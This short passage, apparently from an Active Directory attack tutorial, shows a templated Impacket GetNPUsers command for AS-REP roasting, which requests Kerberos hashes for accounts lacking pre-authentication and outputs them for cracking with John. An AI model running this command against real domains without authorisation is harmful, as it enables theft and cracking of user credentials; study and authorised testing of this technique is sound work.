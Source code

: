 We can run the below command for this attack 

Impacket-GetNPUsers <DomainName>/ -userfile <users.txt> -dc-ip <IP address> - request -format john 

